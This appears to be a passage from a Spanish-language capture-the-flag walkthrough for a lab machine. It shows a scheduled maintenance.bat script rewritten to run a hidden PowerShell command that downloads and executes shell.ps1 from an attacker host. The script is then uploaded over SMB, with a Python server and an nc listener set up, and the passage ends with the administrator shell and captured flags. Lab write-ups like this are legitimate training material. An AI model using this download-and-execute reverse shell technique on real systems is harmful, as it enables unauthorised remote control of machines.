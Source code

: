 Ahora vamos a modificar el `mantenimiento.bat` y dejarlo de la siguiente forma:

```bat
@echo off
:: Mantenimiento del sistema de copias de seguridad
:: Este script es ejecutado cada minuto

REM Pista: Tal vez haya algo m�s aqu�...

:: Reverse shell a Kali
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "iex(New-Object Net.WebClient).DownloadString('http://<IP_ATTACKER>:8000/shell.ps1')"

:: Fin del script
exit
```

Esto lo subiremos al `SMB` de la siguiente forma:

```shell
cd Proyectos/Quokka/Código
put mantenimiento.bat
```

Ahora vamos abrirnos un servidor de `python3` para que nos coja el archivo `shell.ps1` y seguidamente nos pondremos a la escucha con `nc`.

```shell
python3 -m http.server 8000
```

Ahora nos pondremos a la escucha:

```shell
nc -lvnp <IP> 4444
```

Solo tendremos que esperar cosa de `1` minuto y si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 4444 ...
connect to [192.168.10.47] from (UNKNOWN) [192.168.10.45] 49794
whoami
win-vru3gg3dplj\administrador
PS C:\Windows\system32>
```

Vemos que funciono y seremos el usuario el `administrador` directamente, por lo que leeremos la flag del admin y del usuario (`0mar`).

> user.txt

```
9OWiub9aDwcULNxs4w80W63Jl
```

> admin.txt

```
j9eCpd89VGOscar4nQp8e842mUOb8U
```
